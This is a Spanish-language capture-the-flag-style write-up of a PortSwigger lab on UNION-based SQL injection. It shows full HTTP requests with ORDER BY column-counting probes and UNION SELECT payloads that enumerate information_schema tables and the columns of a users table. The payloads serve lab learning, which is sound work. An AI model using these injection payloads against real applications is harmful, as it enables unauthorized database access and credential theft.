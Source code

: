 ```yaml
---
description: >-
  https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle
---
```


# Lab 5: SQL injection attack, listing the database contents on non-Oracle databases

Se inicia el laboratorio y al interactuar con los filtros de busqueda:

Se genera la siguiente peticion:

```
GET /filter?category=Corporate+gifts HTTP/2
Host: 0aeb00b004aac525817ed54000ef0015.web-security-academy.net
Cookie: session=5YjQozT4bUZR3JR3qDg9UE97lh1xaCaY
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aeb00b004aac525817ed54000ef0015.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

Y la anterior peticion responde asi:

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 8912

```

Empezamos a validar el numero de campos con ORDER BY:

```
GET /filter?category='+order+by+1-- HTTP/2
Host: 0aeb00b004aac525817ed54000ef0015.web-security-academy.net
Cookie: session=5YjQozT4bUZR3JR3qDg9UE97lh1xaCaY
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aeb00b004aac525817ed54000ef0015.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

Lo anterior responde asi:

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3920

```

Se procede a incrementar el valor a 2:

```
GET /filter?category='+order+by+2-- HTTP/2
Host: 0aeb00b004aac525817ed54000ef0015.web-security-academy.net
Cookie: session=5YjQozT4bUZR3JR3qDg9UE97lh1xaCaY
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aeb00b004aac525817ed54000ef0015.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

Y lo anterior responde asi:

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3920

```

Y finalizamos validando con el numero 3:

```
GET /filter?category='+order+by+3-- HTTP/2
Host: 0aeb00b004aac525817ed54000ef0015.web-security-academy.net
Cookie: session=5YjQozT4bUZR3JR3qDg9UE97lh1xaCaY
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aeb00b004aac525817ed54000ef0015.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

La inyeccion previa responde con un error:

```
HTTP/2 500 Internal Server Error
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2423

```

Por lo tanto, podemos afirmar que tenemos 2 campos disponibles para nuestras proximas inyecciones:

Luego de validar que tipo de dato son cada columna, podemos enumerar con el siguiente payload:

```
GET /filter?category='+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables-- HTTP/2
Host: 0aeb00b004aac525817ed54000ef0015.web-security-academy.net
Cookie: session=5YjQozT4bUZR3JR3qDg9UE97lh1xaCaY
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aeb00b004aac525817ed54000ef0015.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

La anterior consulta responde asi:

<figure><img src="../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

Luego de obtener los nombres de las tablas podemos intentar retornar las columnas de una tabla especifica:

```
GET /filter?category='+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_upxvct'-- HTTP/2
Host: 0aeb00b004aac525817ed54000ef0015.web-security-academy.net
Cookie: session=5YjQozT4bUZR3JR3qDg9UE97lh1xaCaY
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aeb00b004aac525817ed54000ef0015.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

El payload anterior logra retornar los nombres de las columnas de la tabla USUARIOS:

<figure><img src="../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

Utilizando los nombres de las columnas y el nombre de la tabla, se diseña una consulta que retorne los valores que tiene esta tabla:

<figure><img src="../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>
